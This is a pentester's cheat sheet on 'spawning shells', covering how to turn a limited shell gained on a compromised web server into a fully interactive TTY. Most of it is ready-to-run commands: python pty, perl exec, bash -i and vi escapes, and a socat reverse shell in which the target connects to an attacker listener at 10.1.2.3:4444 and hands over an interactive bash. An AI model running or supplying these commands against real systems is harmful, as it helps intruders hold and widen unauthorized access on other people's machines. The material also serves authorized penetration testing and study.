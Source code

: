# Spawning shells



## Non-interactive tty-shell

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do. 

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:



**Using python**

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```
echo 'os.system('/bin/bash')'
```

**sh**

```
/bin/sh -i
```

**bash**

```
/bin/bash -i
```

**Perl**

```
perl -e 'exec "/bin/sh";'
```

**From within VI**

```
:!bash
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

_old ref: https://github.com/cornerpirate/socat-shell_

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

**python**
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

**sockat**
```bash
# attacker (listen):
socat file:$(tty),raw,echo=0 tcp-listen:4444  

# target (connect):
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.1.2.3:4444
```

**stty**
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


## References:

http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password
http://netsec.ws/?p=337
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
